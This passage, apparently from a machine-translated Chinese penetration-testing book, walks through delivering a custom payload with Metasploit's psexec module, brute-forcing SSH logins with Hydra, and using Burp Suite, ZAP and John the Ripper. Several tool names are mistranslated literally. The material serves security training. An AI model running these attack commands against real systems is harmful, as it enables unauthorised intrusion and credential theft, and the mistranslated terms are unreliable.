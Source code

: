 将有效负载移到目标 Windows 系统并运行有效负载。只要没有配置问题，侦听主机的端口 80 上没有运行其他服务，并且没有任何东西阻止受攻击主机和侦听器之间到端口 80 的连接，您就应该看到在 Kali 主机上生成的会话。

那么，如果您有这些定制的漏洞利用，那么如何将它们用于真正的 Metasploit 漏洞利用呢？很简单，只需调整变量以指向它们。下面是一个使用 Metasploit 中的`psexec`模块的示例。确保将 targetIP 更改为目标 Windows 系统。设置系统本地管理员的用户名和系统本地管理员的密码。最后，将自定义的`EXE`路径设置为您的`python_paload.exe`和，您应该会看到在侦听器上生成的 shell。

```
use exploit/windows/smb/psexec
set rhost targetIP
set SMBUser username
set password password
set EXE::Custom /path/to/your/python_payload.exe
exploit -j

```

## 打嗝套装

Burp Suite 是透明代理的标准，或者是用于直接交互和处理从浏览器发送到浏览器的 web 流量流的工具。该工具有一个 pro 版本，它添加了一个体面的 web 漏洞扫描器。使用时应小心，因为它可能会导致论坛、电子邮件和交互的多次提交。

同样的道理也可以用它的 Spider 工具来解释，它与范围广泛的 web 应用程序进行交互，并将它们映射为类似于 Google 和 Bing 这样的网络爬虫。确保当您使用这些工具时，您首先禁用自动提交和登录，直到您更好地理解应用程序。更多关于 Burp 和类似 web 工具的信息将在[第 6 章](06.html "Chapter 6. Assessing Web Applications with Python")*使用 Python 评估 web 应用程序*中介绍。其他类似工具包括**Zed 攻击代理**（**ZAP**），该工具现在还包含名为 DirBuster 的未链接文件夹和文件研究工具。

## 九头蛇

Hydra 是一种服务或接口字典攻击工具，可以识别可能提供访问的可行凭证。Hydra 是多线程的，这意味着它可以通过串联的多个猜测来评估服务，从而大大加快了攻击和产生的噪音。例如，以下命令可用于攻击 IP 地址为`192.168.1.10`的主机上的**安全外壳****SSH**服务：

```
hydra -L logins.txt -P passwords.txt -f -V 192.168.1.10 ssh

```

此命令使用用户名列表和密码列表，在第一次成功时退出，并显示尝试的每个登录组合。如果您只想测试一个用户名和密码，那么命令将分别更改为使用小写字母`l`和`p`。相应的命令如下：

```
hydra -l root -p root -f -V 192.168.1.10 ssh

```

Hydra 还能够对服务和网站的身份验证接口进行暴力攻击。行业中还有许多其他工具具有类似的功能，但大多数评估人员使用 Hydra，因为它具有广泛的功能和协议支持。有时 Hydra 不符合要求，但通常其他工具也不能满足需要。发生这种情况时，我们应该考虑创建 Python 脚本。有关凭证攻击的其他详细信息，请参见[第 4 章](04.html "Chapter 4. Executing Credential Attacks with Python")*使用 Python*执行凭证攻击。

## 开膛手约翰

**开膛手约翰**（**JtR**）或大多数人称之为约翰的开膛手约翰是市场上最好的饼干之一，可以攻击盐和非盐的哈希。John 最大的好处之一是它可以与大多数散列一起使用。John 能够从标准输出和文件格式中识别哈希类型。如果通过只提供散列文件而不提供参数的方式在本地运行，John 将尝试使用其标准方法破解散列。这首先是在单裂纹模式下尝试的，然后是单词列表模式，最后是增量模式。

### 注
